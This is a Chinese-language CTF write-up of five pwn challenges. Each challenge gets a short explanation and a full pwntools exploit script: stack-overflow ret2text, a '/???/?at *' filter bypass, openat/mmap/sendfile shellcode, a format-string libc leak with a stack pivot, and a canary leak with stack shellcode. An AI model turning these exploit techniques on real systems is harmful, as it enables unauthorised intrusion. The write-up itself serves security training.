








# ezstack


stack 函数中存在栈溢出漏洞。

有个 vuln 函数，里面可以执行命令，但是过滤了一些字符。



我们可以通过 `/???/?at` 代替 cat，然后用通配符读出根目录下所有文件，即 `/???/?at *`

总体思路就是栈溢出然后跳到 vuln 函数，执行命令，很简单。



```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *
context.log_level = 'debug'
p = remote("challenge.yuanloo.com",39503)
p.recvuntil(b"good stack")
backdoor = 0x401275
ret = 0x401352
payload = b'a'*48 + b'b'*8 + p64(ret) + p64(backdoor)
p.sendline(payload)
p.interactive()


```

# giaopwn


vuln 函数中存在栈溢出漏洞。



有个后面函数 backdoor，但是 system 的参数不对，去字符串里面找一下。



在 data 段里面找到一个 cat flag。

接下来就是简单的 ret2text。



```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *
p = remote("challenge.yuanloo.com",44132)
sys = 0x4006D2
sh = 0x601048
ret = 0x4006C5
rdi = 0x400743
payload = b'a'*32 + b'b'*8 + p64(rdi) + p64(sh) + p64(sys)
p.sendline(payload)
p.interactive()


```

# ezorw
禁用常规orw后，可以用openat，mmap，sendfile实现相同功能。



```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *
context.arch = 'amd64'
context.log_level='debug'
p = remote('challenge.yuanloo.com',37286)
p.recvuntil(b"welcome to YLCTF orw~\n")
shellcode=shellcraft.openat(0,'/flag',0)
shellcode+=shellcraft.mmap(0x10000,0x100,1,1,'eax',0)
shellcode+=shellcraft.sendfile(1,3,0,0x100)
sh=asm(shellcode)
print(sh)
p.sendline(sh)
p.recv()
p.interactive()


```


# ezfmt
题目给了 libc。



有个格式化字符串漏洞，用它泄露 libc 地址后，直接栈迁移到 bss 执行 onegadget。

```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *
context.log_level = 'debug'
binary = "./ezfmt"
elf = ELF(binary)
p = remote('challenge.yuanloo.com',31426)
func = 0x401214
pop_rdi = 0x4012b3
leave_ret = 0x401241
p.sendafter(b"YLCTF", (b"%13$p").ljust(0x20, b'\x00')+p64(elf.bss(0x508))+p64(func))
p.recvuntil(b"0x")
libc_address = int(p.recv(12), 16) - 0x24083
one = libc_address + 0xe3b01
pay = p64(elf.bss(0x508)-0x20) + p64(one) + p64(0)*2 + p64(elf.bss(0x508)-0x20) + p64(leave_ret)
p.send(pay)
p.interactive()


```


# canary_orw
题目给了提示，jmp rsp，并且 NX 保护没关，栈可执行，可以用 13 字节构造一次 write 泄露 canary，然后在栈上写 orw 的 shellcode 就可以了。

```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *
context.arch = 'amd64'
context.log_level='debug'
p = remote("challenge.yuanloo.com",42481)
binary = './canary'
elf = ELF(binary)
mmap = elf.bss()+0x500
orw=shellcraft.open('./flag')
orw+=shellcraft.read(3,mmap,0x50)
orw+=shellcraft.write(1,mmap,0x50)
orw=asm(orw)
jmp_rsp = 0x40081B
p.recvuntil(b"Say some old spells to start the journey\n")
shellcode = b"\x66\x83\xee\x10\x0f\x05\xb8\x20\x08\x40\x00\xff\xe0"
pay = p64(jmp_rsp) + shellcode
p.send(pay)
canary = u64(p.recvuntil(b"\x00\x00")[-10:-2])
print(hex(canary))
p.recvuntil(b"me the location of the Eye of the Deep Sea\n")
p.send(b'a'*0x8+p64(mmap))
p.recvuntil(b"I have magic\n")
p.send(b'/flag'.ljust(8,b'a'))
p.recvuntil(b"Let's go!\n")
pause()
shellcode = asm(
    '''
    sub rsp,0x100
    '''
)
pay = b'b'*0x10 + p64(canary)*3 + p64(jmp_rsp) + shellcode + orw
p.sendline(pay)
p.interactive()


```

